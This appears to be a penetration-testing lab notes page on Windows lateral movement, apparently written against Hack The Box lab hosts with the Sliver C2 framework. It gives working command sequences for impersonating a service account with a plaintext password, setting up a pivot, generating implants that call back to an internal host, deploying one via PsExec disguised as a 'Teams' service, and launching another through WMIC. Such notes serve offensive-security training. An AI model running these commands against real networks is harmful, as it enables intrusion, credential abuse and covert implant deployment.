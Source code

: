 ```yaml
---
description: Using credentials of other users.
---
```


# Lateral Movement

First use make-token as part of imperonsation to create a new logon session. Utilities like impersonate and runas can be used to get an authenticated session.

| Logon Session                                                                                          | Authenticated Session                                                                         |
| ------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------- |
| Created with minimal proof (e.g., `make-token`) using user credentials.                                | Created via proper authentication (e.g., password, NTLM hash).                                |
| Represents an identity with potential access; no guaranteed authorization or full access to resources. | Represents a validated identity with full access to resources based on privileges.            |
| Often non-interactive, used for impersonation or privilege escalation.                                 | Often interactive, allowing full user actions or process execution with provided credentials. |
| Tools like `make-token` or low-level APIs can create logon sessions.                                   | Tools like `runas`, `PsExec`, or Kerberos TGT injection can provide authenticated sessions.   |

### <mark style="color:yellow;">Lateral Movement</mark>

Start by impersonating

```sh
# Make token
make-token -u svc_sql -d child.htb.local -p jkhnrjk123!

# Check access
ls //srv01.child.htb.local/c$
```

Setup a pivot

```sh
pivots tcp --bind 172.16.1.11
```

Create an implant

```sh
generate --format service -i 172.16.1.11:9898 --skip-symbols -N psexec-pivo
```

Upload the binary

```sh
psexec --custom-exe /home/htb-ac590/psexec-pivot.exe --service-name Teams --service-description MicrosoftTeaams srv01.child.htb.local
```

### <mark style="color:yellow;">Using WMIC</mark>

Windows Management Instrumentation (WMI) is a Windows administration tool that offers a environment for accessing and managing system components both locally and remotely. It allows system administrators to use VBScript or PowerShell scripts to efficiently manage Windows machines.&#x20;

WMI serves as a built-in method for lateral movement and remote code execution, and it requires local administrator privileges.

```sh
# Generate an implant
sliver (http-beacon) > generate -i 172.16.1.11:9898 --skip-symbols -N wmicpivot

# Create a logon session
make-token -u svc_sql -d child.htb.local -p jkhnrjk123!
```

Then execute

```sh
execute -o wmic /node:172.16.1.13 /user:svc_sql /password:jkhnrjk123! process call create "C:\\windows\\tasks\\wmicpivot.exe"
```

We will get a connection back because of the pivot.



